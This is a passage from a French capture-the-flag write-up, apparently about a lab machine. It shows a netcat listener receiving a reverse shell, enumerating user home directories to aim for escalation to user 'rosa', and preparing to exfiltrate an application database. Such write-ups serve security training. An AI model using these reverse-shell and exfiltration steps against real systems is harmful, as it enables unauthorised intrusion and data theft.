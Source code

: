 Grâce à l'outil {% include dictionary.html word="Netcat" %} en écoute sur le bon port, nous obtenons un *{% include dictionary.html word="reverse-shell" %}*

```bash
nc -lvnp 9000            
listening on [any] 9000 ...
connect to [10.10.14.37] from (UNKNOWN) [10.10.11.38] 46908
sh: 0: can't access tty; job control turned off
$ id
uid=1001(app) gid=1001(app) groups=1001(app)
```

Nous pouvons améliorer l'interactivité du shell obtenu :

{% gist ab3c791e25baa7b437d0324f6d3195af %}

## Escalade horizontale

L'utilisateur `app` ne semble pas avoir beaucoup de privilèges sur la machine. En revanche, nous notons l'existence d'une autre utilisatrice `rosa` qui pourrait avoir des droits {% include dictionary.html word="sudo" %}.

```bash
pwd
/home/app

ls -hAl /home
total 8.0K
drwxr-xr-x 8 app  app  4.0K Oct 26 09:48 app
drwxr-xr-x 5 rosa rosa 4.0K Oct 26 10:05 rosa

cd /home/rosa

ls -hAl
total 28K
lrwxrwxrwx 1 root root    9 Jun 17 01:50 .bash_history -> /dev/null
-rw-r--r-- 1 rosa rosa  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 rosa rosa 3.7K Feb 25  2020 .bashrc
drwx------ 2 rosa rosa 4.0K Jun 15 20:38 .cache
drwxrwxr-x 4 rosa rosa 4.0K Jun 16 16:04 .local
-rw-r--r-- 1 rosa rosa  807 Feb 25  2020 .profile
lrwxrwxrwx 1 root root    9 Jun 17 01:51 .sqlite_history -> /dev/null
drwx------ 2 rosa rosa 4.0K Jun 15 18:24 .ssh
-rw-r--r-- 1 rosa rosa    0 Jun 15 20:43 .sudo_as_admin_successful
-rw-r----- 1 root rosa   33 Oct 26 09:39 user.txt
```

Dans le répertoire de l'utilisateur `app` nous repérons une base de données et nous tentons de l'exfiltrer pour l'analyser

```bash
ls -hAl
total 44K
-rw------- 1 app  app  5.8K Oct  9 20:08 app.py
lrwxrwxrwx 1 root root    9 Jun 17 01:51 .bash_history -> /dev/null
-rw-r--r-- 1 app  app   220 Jun 15 20:43 .bash_logout
-rw-r--r-- 1 app  app  3.7K Jun 15 20:43 .bashrc
drwxrwxr-x 3 app  app  4.0K Jun 17 00:44 .cache
drwx------ 2 app  app  4.0K Oct 26 10:12 instance
drwx------ 7 app  app  4.0K Jun 15 22:57 .local
-rw-r--r-- 1 app  app   807 Jun 15 20:43 .profile
-rw-r--r-- 1 app  app     0 Oct 26 09:48 pwned
lrwxrwxrwx 1 root root    9 Jun 17 01:52 .sqlite_history -> /dev/null
drwx------ 2 app  app  4.0K Oct  9 20:13 static
drwx------ 2 app  app  4.0K Oct  9 20:18 templates
drwx------ 2 app  app  4.0K Oct 26 10:12 uploads

```